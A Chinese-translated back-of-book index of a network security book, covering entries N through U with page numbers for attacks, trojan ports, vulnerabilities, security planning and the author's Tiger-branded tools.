- NetServer 8/16 拒绝服务攻击，322
- NetSphere 服务，122–123
- Netstat 服务，12
- NetStumbler，310
- NetView 漏洞，356–357, 392–393, 452, 482–483。另见 Tivoli NetView
- NetWare，412–414
- 网络地址，174
- 网络地址转换（NAT），42, 43, 189, 328。另见 NAT 攻击
- 网络设计，66
- 网络设备，符合 SNMP 的，444
- 网络域名，定位，154
- 网络文件系统（NFS），5, 437, 460
- Network ICE，127–129
- 网络信息服务（NIS），67
- 网络接口卡（NIC），126, 232
  - 非混杂模式，273
- 网络入侵检测系统（NIDS），163
- 网络节点管理器（NNM），357, 393, 482
- 网络问题缓解，572
- 网络扫描设备，351
- 网络安全，307
- 网段，541
- 网络嗅探器，307
- 网络时间守护进程（NTD），379
  - 漏洞，378–379
- newdsn.exe 文件，410
- 新用户，冒充，206
- 下一级信息，161
- NFS。参见网络文件系统（NFS）
- NFS 导出，通过 Portmapper，461–462
- NIC。参见网络接口卡（NIC）
- NIDS。参见网络入侵检测系统（NIDS）
- Nimda 蠕虫，65, 389–391, 478–479
- NIPC 监视与预警部门。参见国家基础设施保护中心（NIPC）监视与预警部门
- NIS。参见网络信息服务（NIS）
- NIS 域名，74
- NIST。参见美国国家标准与技术研究院（NIST）
- Nmap 扫描器，72, 88, 185, 329, 430, 432, 548
- NNM。参见网络节点管理器（NNM）
- 节点列表配置，45
- "No ip directed-broadcast" 命令，485
- NoLMHash 键，440
- Nortel/Bay Access 路由器，泛洪攻击，330–331
- Northern Light 网站，270, 429
- Norton AntiVirus 2001，291
- Norton AntiVirus 2002，224
- Norton Internet Security，232–233
- Norton Internet Security 2002，129–130
  - 配置，130
- Norton LiveUpdate，291, 292
- NOTIFY 指令，385, 475
- Novell NetWare，412–414
- Novell Web 服务器，346–349
- NPS。参见 NetBus 保护系统（NPS）
- -n/-R 扫描选项，182
- NS（名称服务器）记录类型，180
- NSAP（网络服务接入点地址）记录类型，180
- NSAP-PTR（网络服务接入协议）记录类型，180
- nslookupComplain()，362
  - 缓冲区溢出，447
- NTAdmin.exe 文件，412
- NTCrack.exe 文件，412
- NTD。参见网络时间守护进程（NTD）

NTLMv2（NT 局域网管理器版本 2），439–440

NT 服务器问题缓解，572

Nuke 攻击，129

Nuke.c 攻击，367

空默认 *sa* 密码，388

空会话连接，437

空会话信息泄露，438–439

NULL 记录类型，180

编号，访问列表，172, 173, 176

NWSFILE.nws 文件扩展名，390, 391

nwtcp.c，348–349

NXT（下一个）记录类型，180

NXT 记录，处理不当，447

NXT 漏洞，443

### O

Office 套件，379

一分钟高阈值，235

一分钟低阈值，235

在线修改请求，155–156

-oN/-oM <logfile> 扫描选项，182

OpenBSD/NetBSD 缓冲区溢出，453

OpenLDAP，文件控制，370

开放邮件中继，402

开放端口，2

发现，187

过多，430–431

OpenServer Caldera，458

OpenSSH 漏洞，374–375

开放 SMB 共享，460

OpenView 漏洞，356–357, 392–393, 451–452, 482–483

OpenView 网络节点管理器（NNM），357, 393, 482

操作系统检测，182

操作系统审计，181–182

操作系统日志设施，433

操作系统（OS），317, 349–420

操作系统稳定性，130

操作系统更新，233

操作保证，507

操作控制，508–536, 522–530, 621–625, 632–636

操作系统运行状态，490

操作系统运行状态，498

运行/维护阶段，系统生命周期中，506–507, 621, 631

Optix 服务，115

Oracle9iAS Web 缓存，缓冲区溢出，486

O'Reilly WebSite Professional 攻击，349

OS/2 隧道利用，414

-O 扫描选项，182

Outlook，386

Outlook 2000 vCard 缓冲区溢出，400

Outlook 通讯簿，401

Outlook Express，381

!outlook! 文件，400

ovactiond 进程，393

溢出漏洞，343–344

覆盖，507

### P

包过滤，薄弱或缺失，431–432

包过滤策略，432

包泛洪，484–485

包互联网探测程序（PING），6, 160, 555–556。*另见* PING 条目

Palmetto 缓冲区溢出，454

Palm Pilot Pro 拒绝服务攻击，322

纸质废弃物，206

Passchange1.asp 网关，198

Passchange2.asp 网关，198–199

Passchange.asp 网关，197–198

被动攻击，306

密码认证，269

密码破解器，514, 529

IOS，327–328

密码破解，402–407

防范，269–273

密码文件，74

嗅探，407

密码生成器，518

password.mdb 文件，194

密码

避免明文，18

暴露，363

揭示，413

弱密码，428–429

密码方案，271

密码安全，206–207

密码隐藏，269

密码存储，271

密码系统，532

补丁，345, 415, 416, 478

Sun，417

Patchloader 源代码，210–221

PC Viper，132

PDU。参见协议数据单元（PDU）

渗透，有知识的，539–540

渗透攻击，防范，225–313

渗透黑客程序，89–90, 94

渗透测试，515, 537, 538–539, 540, 540, 596, 597

pepsi.c 攻击，326

性能监控，515

周边防御机制，598

周边防火墙，126, 189

配置，181

周边网关，阻止来自的 IP 范围扫描，163–171

周边硬件，锁定，317–425

永久虚电路（PVC），544

权限，FTP，18

允许语句，171, 172, 173, 174

持久性 Cookie，202

个人联系记录，修改，158

个人防火墙，224

个人识别码（PIN），517

个人安全顾问，437

人员控制，523–524

人员安全pic安全，509–510, 621, 632

人员终止程序，524

PGP Security，423

phAse Zero 服务，105

PHP 文件上传，漏洞，470–471

PHP 语言漏洞，333

php_mime_split 函数，333, 344–345, 470

- PHP 漏洞，344–345
- 物理访问控制，524–525
- 物理保护，621–622, 632
- 物理安全控制，510–511, 621–622
- PIN。参见个人识别码（PIN）
- PING。参见包互联网探测程序（PING）
- PING 命令，161
- PING 执行，161
- PING 查询请求，162
- PING 站点查询扫描，556–557
- PING/traceroute 工具，163
- PING 流量，485
- 管道字符（|），邮件中，451
- 管道密码拥塞，323–324
- PIX 防火墙，170
- PIX 漏洞，424
- 规划，应急，512–513。另见设计；安全规划
- 管道泄漏，511, 525
- PocketPC 2002，313
- 即点即阻机制，266
- 接入点（POP）位置，203
- 策略创建，TigerGuard，141
- 策略指南，492–497
- 策略列表标准和默认，132
- TigerGuard，134
- 策略模板，536
- POP。参见邮局协议（POP）
- POP2 协议，67, 451, 561
- POP3 协议，67, 268, 451, 561
- POP 邮件服务器，451
- POP 根可访问性，415
- 端口 7，10–11, 347
- 端口 11，12
- 端口 15，12
- 端口 19，12–13, 347
- 端口 20，13, 560
- 端口 21，13–27, 101, 361, 560
- 端口 23，27–40, 102, 226, 364, 415, 458
- 端口 25，40–43, 102–103, 449, 450, 560
- 端口 41，103
- 端口 53，43–44, 407
- 端口 67，44–45
- 端口 69，45–64, 390, 391, 479
- 端口 77，88
- 端口 79，65, 103
- 端口 80，65–66, 103, 336, 337, 340, 390, 391, 436, 457, 479, 480, 560
- 端口 81，560
- 端口 109，67, 560–561
- 端口 110，67, 102–103, 560–561
- 端口 111，67–68, 441, 462
- 端口 113，103–104
- 端口 121，104
- 端口 135，67–68, 74
- 端口 137，67–68, 437
- 端口 138，67–68
- 端口 139，67–68, 437
- 端口 161，68
- 端口 162，184
- 端口 259，421
- 端口 389，397
- 端口 512，68
- 端口 513，68, 415
- 端口 514，68–69, 326, 329
- 端口 515，366, 417
- 端口 517，69
- 端口 518，69
- 端口 520，69
- 端口 531，104–105
- 端口 540，69–70
- 端口 555，105
- 端口 600，418
- 端口 636，397
- 端口 666，105
- 端口 999，103
- 端口 1031，407
- 端口 1042，106
- 端口 1045，104–105
- 端口 1100，486
- 端口 1234，106
- 端口 1243，107
- 端口 1245，107
- 端口 1349，123
- 端口 1433，389
- 端口 1492，107
- 端口 1900，385
- 端口 1981，108
- 端口 1999，108
- 端口 2001，109–110
- 端口 2049，462
- 端口 2115，110
- 端口 2140，103, 110–111
- 端口 2155，111
- 端口 2565，111
- 端口 2600，111–112
- 端口 2989，112
- 端口 3150，103, 110–111
- 端口 3700，113
- 端口 4000，486
- 端口 4001，486
- 端口 4002，486
- 端口 4567，113
- 端口 5000，113–114, 385
- 端口 5001，114–115
- 端口 5151，115
- 端口 5321，103
- 端口 5512，111
- 端口 5560，115–116
- 端口 6112，353, 371, 377, 416, 474
- 端口 6400，116
- 端口 6667，389
- 端口 6776，107
- 端口 6912，116
- 端口 6969，116–117
- 端口 6970，117
- 端口 7000，117–118
- 端口 7597，118
- 端口 8008，348
- 端口 9400，118
- 端口 9878，108–109
- 端口 9989，105
- 端口 10008，359
- 端口 10067，113
- 端口 10101，118–119
- 端口 10167，113
- 端口 10520，119
- 端口 10607，119
- 端口 12223，119
- 端口 12345，119–120
- 端口 12346，119–120
- 端口 13000，74
- 端口 16969，116–117
- 端口 18000，120
- 端口 20000，120–121
- 端口 20001，120–121
- 端口 21544，121
- 端口 22222，121–122
- 端口 30029，122
- 端口 30303，114–115
- 端口 31337，123
- 端口 31338，123
- 端口 33333，121–122
- 端口 33911，124
- 端口 35000，124–125
- 端口 40412，125
- 端口 47262，125–126
- 端口 50505，114–115
- 端口 54320，123
- 端口 54321，123
- 端口 60000，103
- 端口 61466，88


#### 端口

- 端口。*另见*未知端口
  - 活动的，188
  - 隐蔽的，1，71–151
  - 定义，4–5
  - 发现开放的，187
  - 列表，101–126
  - 多路复用与解复用，5–6
  - 开放的，430–431
  - 开放和关闭的，2
  - 保护，1
  - 易受攻击的，8，430–431
  - 周知的，1–2，3–70
- 端口 1–1000，扫描，186–188
- 端口 137–139，183
- 端口 1010–1015，106
- 端口 1999–2005，108–109
- 端口 3459–3801，112–113
- 端口 5400–5402，101
- 端口 6670–6771，103
- 端口 9872–9875，113
- 端口 10000–15000，359，360
- 端口 30100–30102，122–123
- 端口 31785–31792，123–124
- 端口扫描器，1–2
- 端口扫描，184–189，558–561
- PortScan 结果，559
- 端口安全，132
- 端口会话嗅探器，133
- Port Watcher，645
- 端口监视器，126–151
- -PO 扫描选项，182
- 端口 65000，126
- 便携式系统，511，525
- 端口警报通知，89
- Portal of Doom 服务，113
- 端口阻止器，66，126–151，292
- 端口控制，TFTP，49
- 端口过滤技术，444
- 端口列表，645–646
- Portmap 守护进程，67
- 通过 Portmapper 的 NFS 导出，461–462
- Portmap 服务，67–68，74
- 免费自定义端口保护，132
- 端口保护设备，520
- 限制端口查询响应，234
- 职位的敏感级别，523
- 邮局协议（POP），67，451。*另见* POP 条目
- 邮局协议服务，560–561
- 电子邮件头中的邮局路由信息，264
- PowerPoint，379，380，478
- -p <range> 扫描选项，182
- 良好隐私密码法（Pretty Good Privacy），310
- 预防，132
- 预览选项，391
- 主要计算平台，499
- 主要互联网路由器，165
- 主要威胁，548，561–562
- 打印弱点，374
- 优先服务，116–117
- 隐私，553
- PrivateFirewall，132
- "特权"端口，68
- 生产控制，511–512，525–526，622，632–633
- 专业性，210
- ProFTP 漏洞，453
- ProgenicMail.zip 文件，411
- "隐藏"的程序，93
- 专有解决方案，用于加密密钥管理，311–312
- Prosiak 服务，121–122
- Protected.asp 网关，200
- 受保护的可扩展认证协议（EAP），307–309
- 保护要求，类别，502
- 协议数据单元（PDUs），68，184
- 协议族，流量组成按，541，564–567
- 协议使用图，566
- 代理，317–318，420–425
- "代理" FTP 连接，185
- *ps* 活动进程列表器，274
- PTR（指针）记录类型，180
- 公共访问控制，520–521，627
- 公共访问系统，521
- 清除信息，507
- PVC。 *见* 永久虚拟电路（PVCs）
- PX（指向 X.400/RFC822 信息的指针）记录类型，180

#### Q

- QAZ 木马服务，118
- QINV（反向查询）漏洞，443
- Qpopper，67
- 服务质量（QoS），242

#### R

- 竞态条件，454
- 射频（RF）子网，289
- RADIUS/AAA 认证，311–312，313
- Ramsbottom, Neil，133
- 随机密码生成器，271，273
- 范围扫描器，163
- *raptor.c* DoS 攻击，424
- Raptor 漏洞，424
- RARP。 *见* 反向地址解析协议（RARP）
- Rasmin 服务，104–105
- RAT.QAZ 服务，118
- RAT 服务，112
- RC4 算法，307，311
- RC4 密钥，306
- RDP 绕过漏洞，421
- RDS 漏洞利用。 *见* 远程数据服务（RDS）漏洞利用
- 实时 IP 地址处理，66
- 重启攻击，373
- 对账程序，529
- Red Hat Apache 文件列表漏洞，372–373
- Red Hat LDAP 漏洞，455
- Red Hat Linux，455，457
  - 缓冲区溢出，369–370
  - syncookies，376
- Red Hat 网络警报，427
- Red Hat 网络时间守护进程漏洞，378–379
- Red Hat 更新代理交互过程，369，370，372，374，377，379，458
- Red Hat *uuxqt* 工具，369
- Red Hat 网站，377
- 重定向主机问题，541，567，570，574
- *regctrl.exe* 文件，383
- Regedit32 程序，9，95
- *regedit.exe*，13，233
- RegEdit 程序，8–9，95
- 注册表，系统，8，9
- 注册表备份软件，9
- 注册表编辑器，9，95，392
- 注册表文件夹，内容，9–10
- 注册表修改，94–95
- 注册表结构，96–97
- 法规，系统，619，629
- 远程访问服务（RAS），183
- 远程攻击，554
- 远程审计，537，538，539，596，597
- 远程数据服务（RDS）漏洞利用，436–437
- 远程抓取服务，117–118
- 远程黑客攻击，153
- 远程黑客行为，332–333
- 远程整数溢出漏洞，351
- 远程入侵者，71
- 远程局域网配置，229
- 互联网远程登录，461
- 远程 NetBIOS 审计，182
- 远程溢出，348–349
- 远程过程调用（RPCs），缓冲区溢出，441
- 远程进程执行，68
- 远程 root 攻击，373
- 远程 root 漏洞，363
- 远程安全审查扫描，553
- 远程 shell 访问，484
- 远程 shell 攻击，木马化的，374
- 远程 shell/远程登录，484
- 远程同步漏洞，371–372，446
- 远程木马扫描器，90
- 远程漏洞分析报告，样本，548–552
- 修复活动，527
- 中继器，239
- 复制，病毒式，289
- 安全分析中的报告，542
- 报告，漏洞分析，561–595
- 负责系统安全的组织，497–498
- RestrictAnonymous 标志，439
- 反向地址解析协议（RARP），7
- RFC768，3
- RFC793，3
- RFC931 认证，376
- RFC1948，360
- RF 子网。 *见* 射频（RF）子网
- RHN（Red Hat 网络）警报，153，552
- RIP。 *见* 路由信息协议（RIP）
- 风险评估/管理，502，619，630
- Rivest, Ron，307
- Robo-Hack 服务，115–116
- 角色账户联系人记录修改请求格式，159
- root.exe，Code Red 蠕虫和，334，335
- 发现 Root kit，461
- "路由一次，交换多次"技术，242
- 路由重定向消息，7
- 路由器问题缓解，572
- 路由器，240，317，319–331
  - 泛洪攻击和，239
- 路由信息协议（RIP），69
- RPC 数据库，使用 ToolTalk，456
- $ rpcinfo -p hostname 命令，356，456
- RPC 程序号，67
- RPC。 *见* 远程过程调用（RPCs）
- rpc.ttdbserverd，356
- rpm -Fvh [filename] 命令，369，370，372，373，374，375，377，379，455，458
- RP（负责人）记录类型，180
- rsh 服务，484
- rsync，从中执行代码，371–372
- rsync 缺陷，446
- RT（路由通过）记录类型，180
- 行为规范，619–620，630
  - 安全规划中，494，504

#### S

- Sadmind/IIS 蠕虫，342–343，417–419
- Sadmind 木马，479
- 安全措施，加强，225
- SafetyWare，11，234，599–616
- SAINT。 *见* 安全管理员集成网络工具（SAINT）
- SAM。 *见* 安全账户管理器（SAM）
- SAM LM 哈希，439–440
- Samba，182，437，460
- SAN 设备。 *见* 存储区域网络（SAN）设备
- SANE 接口。 *见* 扫描器访问简易（SANE）接口
- 清理，507
- SANS。 *见* 系统管理、网络与安全（SANS）
- SANS 研究院。 *见* 系统管理、网络与安全研究院
- Satanic Mechanic，367
- Satanz 后门服务，105
- 骗子，高明的，210
- 扫描器访问简易（SANE）接口，372
- 扫描器，CGI 漏洞，292
- 扫描，自定义，88–89。 *另见* 主动扫描；端口扫描
- 扫描技术，553–554
- 扫描，PC 系统，153–154
- 扫描类型，常见，181–182
- SCO 漏洞利用，414–415
- SCO OpenServer，458
- SCOPOP 服务器，415
- 屏幕捕获，612，613
- 筛选，减少垃圾邮件，268
- 屏幕保护登录密码，破解和嗅探，402–407
- scr.exe 文件，386
- 搜索引擎，270，429
  - 多流媒体互联网，600
- TigerSurf 安全浏览器登录密码，600
- TigerSurf 安全浏览器登录屏幕，601
- 安全 FTP，611
- 安全网关，520，535
  - 前端，163
- 安全 Shell（SSH）守护进程，445，476–477
  - 漏洞，350–351
- 安全套接层，310
- 安全 Telnet，612，613
- 安全，人员，509–510，621
- 安全账户管理器（SAM），439–440
- 安全管理员集成网络工具（SAINT），427
- 安全管理员的集成网络工具（SAINT），549–550
- 安全分析，536–542
  - 阶段，538–542
- 安全分析交付成果，样本，542–553
- 安全分析审查，596–598
- 安全审计，153
- 安全意识/培训，515–516，529–530，624–625，635
- 安全控制，物理和环境，510–511，621–622
- 安全控制审查，503–504，619，630
- SecurityFocus Bugtraq，153
- 安全标签，内部，520
- 安全锁定，自定义，595–598
- 安全登录簿，413
- 安全机制，309
- 安全模块，高级，234
- 安全操作/管理，506
- 安全优化功能，自定义，204
- 安全计划开发，497–502
- 安全计划格式，493–494
- 安全规划，492。 *另见* 设计；规划
  - 建议和评论，494
  - 受众，494
  - 目的，493
  - 系统生命周期，504–507，620，630
  - 模板，617–638
- 安全计划职责，493
- 安全计划行为规范，494，619–620
- 安全策略
  - 自定义，131
  - 制定，487，491–598
- 安全实践，良好的，446–447
- 安全责任，分配，497–498，617，628
- 安全扫描，609
- 安全设置，自定义，205
- 安全软件，519
  - 自定义，234
- 安全测试，553
- 安全弱点
  - 行动计划，153
  - 减少，225
- 分段，239
- 段错误，365
- 自我保护技术，518，533
- Sendmail 漏洞，355，442，449–451
- send_status() 缓冲区溢出漏洞，355，442，481
- 敏感性，系统信息，500–502，619
- 敏感级别，安全规划中，497
- 服务器控制模块，Lamer 代码，82–83
- 服务器守护进程日志记录，244
- 服务器-DTP（数据传输过程），185
- 服务器引擎，TFTP，49–64
- 服务器消息块（SMB）格式，182，437，460
- ServeU 服务，105
- 禁用服务横幅，234
- 服务会话，8
- 锁定服务守护进程，317–425
- 服务无响应问题，573
- 服务包更新，233
- 服务 Pro 服务，120
- 服务
  - 添加域，43–44
  - 隐蔽的，71–151
  - 面向连接的，可靠的，7
  - 无连接数据报，7
  - 禁用，189
  - 禁用 chargen，13
  - 禁用 echo，10–11
  - 禁用 fingering，65
  - 禁用 FTP，13–16
  - 禁用 POP，67
  - 禁用 SMTP，41
  - 禁用 telnet，27–28
  - 端口，101–126
  - 保护，1
- 限制服务会话查询，235
- 服务集标识符（SSID），311
- 会话嗅探器，46，66
- setproctitle 漏洞，452
- 严重拥塞，401–402，410
- 严重 DoS 攻击，407–410
- -sF 扫描类型，182
- Shadow Phyre 服务，105
- 共享，未受保护的，437–438
- 共享软件，528
- Shareware.com 网站，245，433
- Shell 守护进程攻击，445
- ShieldsUP，437
- Shit Heep 服务，116
- shockrave 服务，108
- Show access-lists 命令，177
- Show access-lists (interface) 命令，177
- showcode.asp，459
- Show IP access-list 命令，177
- Show IPX access-list 命令，177
- Show running-config 命令，177–178
- Shitrlitz 服务，102
- SIG（加密签名）记录类型，180
- 信号处理竞态条件，454
- 简单邮件传输协议（SMTP）服务，40–43，560。 *另见* SMTP 条目
- 简单网络管理协议（SNMP），5。 *另见* SNMP 条目
  - 多个漏洞，471–472
  - 漏洞，349–350，381–382
- 简单网络管理协议服务，68
- 简单 UNIX 到 UNIX 复制协议（UUCP），69–70。 *另见* UUCP 守护进程
- SirCam 蠕虫，465–467
- SITE EXEC，竞态条件，454
- SITE EXEC 缓冲区溢出，452
- 站点查询，181
- 站点查询扫描，结果，557
- 站点扫描，537，538，539，596
- 滑动窗口，4
- Smack 攻击，368
- smack.c 攻击，365
  - 变种，367–368
- smap/smapd 守护进程，422


 - SmartSwitch Router (SSR)，324
- SMB 格式。参见 Server Message Block (SMB) format
- SMB 共享，打开，460
- SMTP 守护进程，40，448
- SMTP 邮件中继，448–449
- SMTP-NAT-DMZ 程序，42–43，66，292
- SMTP 服务。参见 Simple Mail Transfer Protocol (SMTP) service
- SMTP 使用，未授权的，41
- Smurf 攻击，330，367，485
- smurf.c 程序，330
- snap -a 命令，363
- 嗅探器，307。参见 Network sniffers
  - 防御措施，273–288
  - 定义，273
- SNMP。参见 Simple Network Management Protocol (SNMP)
- SNMP 团体名，323
- 符合 SNMP 的网络设备，350
- SNMP 缺陷，444
- SNMP 信息，184
- SNMP 服务。参见 Simple Network Management Protocol service
- SNMPv1，444
- SNMPv1 产品，68
- snmpXdmid 漏洞，419–420
- *snprintf() 函数调用，365
- -sN 扫描类型，182
- SOA（授权起始）记录类型，180
- 社会工程学，206–207
- 社会工程学攻击，155
- Sockets de Troie 服务，114–115
- 软件
  - 防病毒，224
  - 受版权保护的，528
  - 链接，365
  - 注册表备份，9
  - 安全，519
  - 嗅探器，273
  - TCP 包装器，28–29
  - 病毒防护，290
  - ZoneAlarm 标准防护，131
- 基于软件的网桥，240
- 软件缺陷，328
- 软件守护进程
  - 商业的，231
  - 合法的，71
- 软件维护控制，623，633–634
- 软件保修，527
- Solaris 系统，342–343，415–420
- Solaris yppasswd 缓冲区溢出，463–464
- Soldier pepsi.c 攻击，326
- Solstice Sadmind 程序缓冲区溢出漏洞，342，418
- 排序，在垃圾邮件减少中，268
- 声音过滤程序，419
- 源地址，172，174
- 源抑制消息，6–7
- 垃圾邮件发送者识别服务，267
- 垃圾邮件发送者，阻止，265，266，268
- 垃圾邮件发送者跟踪服务，267–268
- 垃圾邮件
  - 防御措施，263–269
  - 定义，264
- 垃圾邮件测试，537，539，540，596
- Sphinx，132
- Spirit 服务，124
- 欺骗
  - 防御措施，288–289
  - 定义，288
- 欺骗 DNS 服务器，431
- -sP 扫描类型，181
- Spy 服务，125
- SQL 守护进程，571
- -sR/I 扫描类型，182
- SRV（服务器）记录类型，180
- SSH1 CRC-32 补偿攻击检测器，漏洞，353–354，468–469。参见 CRC-32 Compensation Attack Detector
- SSH1 协议，354，445，476
  - 漏洞，351，378
- SSH2 协议，477
- SSH 守护进程。参见 Secure Shell (SSH) daemons
- SSHv2 协议，351，354，378，445，469
- SSID。参见 Service Set Identifier (SSID)
- SSR。参见 SmartSwitch Router (SSR)
- -sS TCP SYN 扫描类型，181
- -sT TCP connect() 扫描类型，181
- 稳定性，操作系统的，130
- 标准访问列表，171，172–173
- STANDARDREPORT.com，561–564
- 工作站配置，推荐的，570–571
- 工作站防御，233
- 隐身活动记录器和报告器（STARR），245
- 隐身日志技术，244–245
- 隐身扫描，185，558
- 隐身服务，102
- 股票市场，TigerTracking，611
- 存储区域网络（SAN）设备，350，382，444，471
- 存储转发交换协议，242
- 风暴蠕虫，341
- 流式音频/视频，242
- 流，3
- Striker 服务，111
- 强认证，307
- 结构性坍塌，511，524
- 结构发现，345–346
- 通过缓冲区溢出的主观代码执行，423
- SubSeven 服务，107
- SubSeven 木马，397，446
- 太阳微系统公司攻击，206
- Sun Solaris 缓冲区溢出，416
- 多余解码，341–342
- SuperStack II 交换机，322
- 窃取管理权限，412–413
- 支持，连续性，526
- 支持工具，失效，510，524
- -sU UDP 扫描类型，181
- Swanson，Marianne，491
- Swatch 工具，263
- 交换核心，280
- 交换机，洪水攻击和，240
- 交换转发协议，242–243
- 交换核心，273
- -sX 扫描类型，182
- Sygate 个人防火墙，132
- SYN/ACK 响应，185，558
- syn acks，376
- SYN 位，5
- Syncookie 漏洞，376–377
- SYN 段，420
- -S \<your_IP\>/e 扫描选项，182
- syslog() 函数，365
- Systat 服务，12
- SYSTEM 账户，438
- 系统管理、网络和安全（SANS），427，430，435
- 系统分析，在安全计划中，494
- 系统备份，缺失或不当，429–430
- 系统边界，495
- 系统类别，495–497
- 系统清理器，90–94
- 系统完全妥协，399
- 系统拥塞，13
- 系统控制，410–411，413–414
- 系统崩溃，407–410
- 系统文档，515
- 系统环境，499，618，629
- %system% 文件夹，394
- 系统识别，617–619，628–630
- 系统识别信息，497–498
- 系统信息，敏感性，500–502
- 系统互连，499–500，618–619，629
- 系统登录密码，破解和嗅探，402–407
- 系统名称/标题，497
- 系统运行状态，498，618，628
- system password debug 命令，321–322
- 系统性能监控，515，529
- 系统注册表，8，9
  - 备份，95
  - 编辑，11
- 系统
  - 一般描述/用途，498–499
  - 影响系统的法律和规范，619，629
  - 移动和便携式，511，525
  - 监控，507
  - 公共访问，521
  - 行为规则，504
- 系统管理、网络和安全协会，153，552
- 系统安全，负责的组织，497–498
  - *参见* Security planning
- 系统软件维护控制，527–528，633–634
- System V，缓冲区溢出，414–415

## T

- Talk 守护进程，69
- Tapiras 服务，102–103
- 目标发现，153
- 目标网络，了解，153
- 目标端口扫描，2
- 目标站点发现扫描，186
- Tauscan 系统清理器，91，93
- TCP（传输控制协议），3–5
- TCP 连接，398
- TCP 连接超时，235
- TCP 过滤，442
- TCP FIN 扫描，185，558
- TCP FIN 等待超时，235
- TCP 洪水攻击器，433
- TCP 空闲超时，235
- TCP 入侵信息，133
- TCP/IP，3
- TCP/IP 帧，564
- TCP/IP 初始序列号（ISN），弱点，360，398
- tcpip.nlm 模块，347
- 每台主机的最大 TCP 不完整会话数，236
- TCP 数据包，4
- TCP 端口号，4
- TCP 端口，3
- TCP 端口扫描，185，558
- TCP 反向 Ident 扫描，185，558
- TCP 滑动窗口，4
- TCP SYN 攻击，326
- TCP SYN 扫描，185，558
- Tcp_Wrapper hosts_access 手册页，30
- TCP 包装器，45，640
  - 软件，28–29
  - UNIX 和，263
  - 使用，28–29，41
- 技术控制，516–522，530–536，625–628，636–638
- 技术员，冒充，206
- Telnet 守护进程，27
- Telnet 守护进程横幅，28
- Telnetd 缓冲区溢出，458
- Telnet 服务，27–40，226
  - 禁用，230
- telrcv 缓冲区溢出，364
- 终端仿真程序，102
- 终止程序，524
- TermiNet，132
- TFTP。*参见* Trivial File Transfer Protocol (TFTP)
- TFTP 数据包，45
- TFTP 服务。*参见* Trivial File Transfer Protocol services
- TFTPServ.ini，18
- tHING 服务，116
- 3Com 路由器，319–322
  - 过滤，164
- 三次握手，5
- 阈值，542，568，569，573–574
- TigerBlock，604，608–609
- TigerBreach，433
- TigerCrypt，224，643–644
  - 密码使用，271–273
- Tiger FTP，18–27
- TigerFTPServ，640
  - 修改，18，19–27
- TigerGuard 自定义端口阻止器，642
  - 免费版，132–151
  - 操作，133–134
- TigerGuard.ini 文件，134
- TigerInspect，641
  - 自定义扫描，88–89
- TigerLog，246–263，643
  - 自定义，245
- TigerPass，643
- TigerPass ASP 网关，193–195
- TigerPass 网关，192–193
- Tiger 密码方案，271，413
- TigerScan 扫描器，72–74
  - 初始化，73
- TigerSearch，610
- TigerSniff，614–615
- TigerSuite，432，548–549
  - DNS 版本发现和，44
- TigerSuite 站点查询扫描模块，181
- TigerSurf 2.0，599–615，645
- TigerSurf HTML 编辑器，602
- TigerSurf 图像查看器，614
- TigerSurf 登录，72
- TigerSurf 安全 FTP 站点，611–612
- TigerSurf 安全 Telnet，612，613
- TigerSurf 安全套件，72，133，205
  - 编辑菜单选项，602
  - 文件菜单选项，603
  - 帮助菜单选项，606
  - HTML 编辑器，607
  - 主模块，601
  - 选项菜单选择，604
  - 个人链接菜单选择，603
  - 个人系统安全扫描器，609
  - 快速启动按钮，606
  - 屏幕捕获，612，613
  - 工具菜单，604，605
  - 查看菜单选项，603
- TigerTalk，614
- 老虎队信息，487
- "TigerTeam 程序"，2
- 老虎队规则，407
- 老虎队秘诀，317
- 老虎技术，94–126
- Tiger telnet，29–40
- TigerTelnetServ，29，30，640
- TigerTFTPServ，46，640–641
- Tiger TFTP 服务，46–64
- TigerTools.net，179，306，552，600，616
- TigerTools.net 主页，604
- TigerTrack，611
- Tiger Web 服务器，66，615–616
- TigerWatch，11，66，133，234，292，374，604
  - 功能，607
- TigerWipe 程序，97–100，274，642
  - 删除隐藏进程，98
- 超时，570
- 生存时间（TTL），324。参见 TTL fields
- 时间戳请求/时间戳回复消息，7
- Tiny 个人防火墙，132
- Tinyproxy 漏洞，465
- Tiny Telnet 服务器（TTS），102
- Tivoli NetView，482
- TLS 握手，308
- TLS 协议。参见 Transport Layer Security (TLS) protocol
- TLV。参见 Type Length Value (TLV)
- TMTOWTDI（不止一种方法），548
- 令牌控制，532
- ToolTalk RPC 数据库，356
- ToolTalk 服务，漏洞，356，456
- 总带宽利用率，567
- Total Control 机箱，321
- Total Control NetServer 卡 v.34/ISDN，320，321
- -T<Paranoid|Sneaky|Polite|Normal|Aggressive|Insane> 扫描选项，182
- 跟踪查询，555–556
- Traceroute 工具，162–163
- 按协议族划分的流量构成，541，564–567
- 培训，安全，515–516，529–530，624–625
- 交易尝试，未授权的，519
- 交易签名（TSIG），362
- 交易签名代码，缓冲区溢出，447
- 传输控制协议。参见 TCP entries
- Transmission Scout 服务，108–109
- 传输层安全（TLS）协议，308–309
- Tripwire 包，12
- Tripwire 工具，263
- 简单文件传输协议（TFTP），5。参见 TFTP entries
- 简单文件传输协议服务，45–64
- 木马应用程序，390
- Trojan Cow 服务，109–110
- 木马化远程 shell 攻击，374
- 木马（Trojans）。参见 恶意代码；病毒；蠕虫
  - 定义，90
  - 本地后门扫描，72–89
  - SubSeven，397
- 木马移除器，641
- Trojan Remover 系统清理器，93–94，95
- 木马上传，344
- 故障排除，239
- tTflag() 函数，449
- TTL。参见 Time-to-live (TTL)
- TTL 字段，162
- TTS。参见 Tiny Telnet Server (TTS)
- TuCows 网站，9，95，245，265，270，429
- Tunnel.c，421
- 隧道，420–421
- TXT (txt) 记录类型，180


## 688 索引

- 基于*NIX的扫描器, 88
- *NIX缓冲区溢出, 441-442
- *NIX Internet服务器数据库(inetd)守护进程, 8
- *NIX记录器, 245
- *NIX平台, 357, 393, 452, 482
- *NIX系统, 182, 460, 461
  - 向其添加域服务, 43-44
  - 禁用chargen服务, 13
  - 禁用echo服务, 10, 11
  - 禁用finger服务, 65
  - 禁用FTP服务, 13, 14
  - 禁用POP服务, 67
  - 禁用SMTP服务, 41
  - 禁用telnet服务, 27-28
  - 其FTP软件守护进程, 18
  - 其中的端口禁用, 431
  - 其中的漏洞, 349-362
- UNIX系统, 353, 371, 375, 377
  - 其中的日志监控, 263
  - 其中的WU-FTPd, 352
- 未知端口, 保护, 89-151
- 未受保护的NetBIOS共享, 437-438
- up2date命令, 369, 372, 373, 375, 455, 458
- Updated.asp网关, 200-201
- 用户访问, 限制, 523
- 用户责任, 516
- 用户账户, 523
- 用户匿名性, 201-205
